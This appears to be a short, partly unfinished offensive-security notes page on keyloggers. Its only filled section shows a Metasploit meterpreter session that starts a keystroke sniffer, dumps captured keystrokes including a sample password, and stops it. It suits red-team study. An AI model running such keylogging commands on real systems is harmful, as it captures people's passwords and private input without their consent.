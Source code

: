 # WireTap

## 01 - Keyloggers

### 1.1 - Unix Shell

TODO: Demonstrate using vim as a keylogger

### 1.2 - Metasploit

```
meterpreter > keyscan_start -h
Usage: keyscan_start <options>
Starts the key logger

OPTIONS:

    -h  Help Banner.
    -v  Verbose logging: tracks the current active window in which keystrokes are occuring.

meterpreter > keyscan_start
Starting the keystroke sniffer ...
meterpreter > keyscan_dump
Dumping captured keystrokes...
my password is Johnny1997!<CR>


meterpreter > keyscan_stop
Stopping the keystroke sniffer...
```

### 1.3 - Sliver

## References

- [Hacktricks: Linux Hardening Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#clipboard)
